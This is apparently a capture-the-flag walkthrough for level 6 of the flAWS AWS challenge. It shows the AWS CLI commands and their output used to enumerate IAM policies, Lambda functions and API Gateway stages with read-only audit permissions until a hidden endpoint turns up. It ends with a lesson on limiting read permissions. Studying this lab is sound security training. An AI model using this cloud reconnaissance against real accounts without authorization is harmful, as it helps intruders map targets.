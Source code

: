 # level 6
using the credentials given, create a aws profile called 'level6'
`vi ~/.aws/credentials`

This account has a SecurityAudit policy attached to it. The SecurityAudit group can get a high level overview of the resources in an AWS account, but it's also useful for looking at IAM policies. First, find out who you are 

    aws --profile level6 iam get-user
    {
        "User": {
            "Path": "/",
            "UserName": "Level6",
            "UserId": "AIDAIRMDOSCWGLCDWOG6A",
            "Arn": "arn:aws:iam::975426262029:user/Level6",
            "CreateDate": "2017-02-26T23:11:16+00:00"
        }
    }

Now that you know your username is Level6 you can find out what policies are attached to it:

aws --profile level6 iam list-attached-user-policies --user-name Level6
    {
        "AttachedPolicies": [
            {
                "PolicyName": "list_apigateways",
                "PolicyArn": "arn:aws:iam::975426262029:policy/list_apigateways"
            },
            {
                "PolicyName": "MySecurityAudit",
                "PolicyArn": "arn:aws:iam::975426262029:policy/MySecurityAudit"
            },
            {
                "PolicyName": "AWSCompromisedKeyQuarantine",
                "PolicyArn": "arn:aws:iam::aws:policy/AWSCompromisedKeyQuarantine"
            }
        ]
    }

Now you know that you have two policies attached:

    "SecurityAudit": This is an AWS policies you can look up either in your console or here
    "list_apigateways": This is a custom one I made. I bet it'll be useful for this challenge, 
    so we should try to figure out what it is. 

Once you know the ARN for the policy you can get it's version id

    aws --profile level6 iam get-policy  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways
    {
        "Policy": {
            "PolicyName": "list_apigateways",
            "PolicyId": "ANPAIRLWTQMGKCSPGTAIO",
            "Arn": "arn:aws:iam::975426262029:policy/list_apigateways",
            "Path": "/",
            "DefaultVersionId": "v4",
            "AttachmentCount": 1,
            "PermissionsBoundaryUsageCount": 0,
            "IsAttachable": true,
            "Description": "List apigateways",
            "CreateDate": "2017-02-20T01:45:17+00:00",
            "UpdateDate": "2017-02-20T01:48:17+00:00",
            "Tags": []
        }
    }

Now that you have the ARN and the version id, you can see what the actual policy is

    aws --profile level6 iam get-policy-version  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4
    {
        "PolicyVersion": {
            "Document": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Action": [
                            "apigateway:GET"
                        ],
                        "Effect": "Allow",
                        "Resource": "arn:aws:apigateway:us-west-2::/restapis/*"
                    }
                ]
            },
            "VersionId": "v4",
            "IsDefaultVersion": true,
            "CreateDate": "2017-02-20T01:48:17+00:00"
        }
    }

This tells us using this policy we can call `apigateway:GET` on `arn:aws:apigateway:us-west-2::/restapis/*`

Using this should lead you in the direction of where the hidden resource is. 

The API gateway in this case is used to call a lambda function, but you need to figure out how to invoke it.

The SecurityAudit policy lets you see some things about lambdas: 

    aws --region us-west-2 --profile level6 lambda list-functions
    {
        "Functions": [
            {
                "FunctionName": "Level6",
                "FunctionArn": "arn:aws:lambda:us-west-2:975426262029:function:Level6",
                "Runtime": "python2.7",
                "Role": "arn:aws:iam::975426262029:role/service-role/Level6",
                "Handler": "lambda_function.lambda_handler",
                "CodeSize": 282,
                "Description": "A starter AWS Lambda function.",
                "Timeout": 3,
                "MemorySize": 128,
                "LastModified": "2017-02-27T00:24:36.054+0000",
                "CodeSha256": "2iEjBytFbH91PXEMO5R/B9DqOgZ7OG/lqoBNZh5JyFw=",
                "Version": "$LATEST",
                "TracingConfig": {
                    "Mode": "PassThrough"
                },
                "RevisionId": "98033dfd-defa-41a8-b820-1f20add9c77b",
                "PackageType": "Zip",
                "Architectures": [
                    "x86_64"
                ]
            }
        ]
    }

That tells you there is a function named `Level6`, and the `SecurityAudit` also lets you run

    aws --region us-west-2 --profile level6 lambda get-policy --function-name Level6

    {
        "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"904610a93f593b76ad66ed6ed82c0a8b\",\"Effect\":\"Allow\",\"Principal\":{\"Service\":\"apigateway.amazonaws.com\"},\"Action\":\"lambda:InvokeFunction\",\"Resource\":\"arn:aws:lambda:us-west-2:975426262029:function:Level6\",\"Condition\":{\"ArnLike\":{\"AWS:SourceArn\":\"arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\"}}}]}",
        "RevisionId": "98033dfd-defa-41a8-b820-1f20add9c77b"
    }

This tells you about the ability to execute `arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\` 
That `s33ppypa75` is a `rest-api-id`, which you can then use with that other attached policy: 

    aws --profile level6 --region us-west-2 apigateway get-stages --rest-api-id "s33ppypa75"
    {
        "item": [
            {
                "deploymentId": "8gppiv",
                "stageName": "Prod",
                "cacheClusterEnabled": false,
                "cacheClusterStatus": "NOT_AVAILABLE",
                "methodSettings": {},
                "tracingEnabled": false,
                "createdDate": "2017-02-26T16:26:08-08:00",
                "lastUpdatedDate": "2017-02-26T16:26:08-08:00"
            }
        ]
    }

That tells you the stage name is `Prod`. Lambda functions are called using that rest-api-id, stage name, region, and resource as 
`https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6`

and here we have a link to the end of flAWS

It is common to give people and entities read-only permissions such as the SecurityAudit policy. The ability to read your own and other's IAM policies can really help an attacker figure out what exists in your environment and look for weaknesses and mistakes.

## Avoiding this mistake
Don't hand out any permissions liberally, even permissions that only let you read meta-data or know what your permissions are. 